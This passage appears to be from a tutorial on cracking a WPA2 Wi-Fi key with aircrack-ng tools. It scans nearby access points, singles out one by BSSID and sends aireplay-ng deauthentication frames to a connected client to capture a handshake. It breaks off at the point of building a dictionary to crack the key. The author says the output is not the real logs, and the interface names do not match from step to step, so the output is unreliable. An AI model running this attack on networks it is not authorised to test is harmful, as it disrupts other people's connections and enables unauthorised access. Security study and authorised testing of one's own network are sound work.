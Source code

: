 ```
$ sudo airodump-ng wlan1mon

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

54:A0:50:DA:7B:98  -76        1        0    0   1  54e  WPA2 CCMP   PSK  RTINC-24
FC:15:B4:CF:0A:55  -70        2        0    0   6  54e. WPA2 CCMP   PSK  HP-Print-55-ENVY 4500 series
A8:4E:3F:73:DD:88  -67        3        0    0   6  54e. WPA2 CCMP   PSK  Internet Movil Orange_2DED
4C:8B:30:83:ED:91  -71        2        0    0   1  54e  WPA2 CCMP   PSK  TELL-US-2.4G

```
*CTRL+C*

*Note: At the moment I'm writing this, my Pi crashed so I can't have the real logs. Sorry.*

`Internet Movil Orange_2DED` is our AP, so we need the **BSSID**: A8:4E:3F:73:DD:88. Let's see if we can deauthenticate somebody:

```
$ sudo airodump-ng --bssid A8:4E:3F:73:DD:88 --channel 6 --write data wlan1mon

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

A8:4E:3F:73:DD:88  -67        3        0    0   6  54e. WPA2 CCMP   PSK  Internet Movil Orange_2DED

BSSID              STATION            POWER    Rate    Lost    Frames    Probe
A8:4E:3F:73:DD:88  00:08:22:B9:41:A1     -1    1-e 0      0       450
```

Without stoping this, let's try to get `00:08:22:B9:41:A1` deauthenticated:

```
$ sudo aireplay-ng -0 5 -a A8:4E:3F:73:DD:88 -c 00:08:22:B9:41:A1 wlan0mon
12:41:56  Waiting for beacon frame (BSSID: A8:4E:3F:73:DD:88) on channel 6
12:41:57  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:58  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:58  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:59  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:42:00  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
```

If everything works the client will be eauthenticated and we're going to have our `Probe`:

```
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

A8:4E:3F:73:DD:88  -67        3        0    0   6  54e. WPA2 CCMP   PSK  Internet Movil Orange_2DED

BSSID              STATION            POWER    Rate    Lost    Frames    Probe
A8:4E:3F:73:DD:88  00:08:22:B9:41:A1     -1    1-e 0      0       450    Internet Movil Orange_2DED
```

Now we can stop that, generate our dictionary and crack they key.

### Crack! Baby! Crack! ###
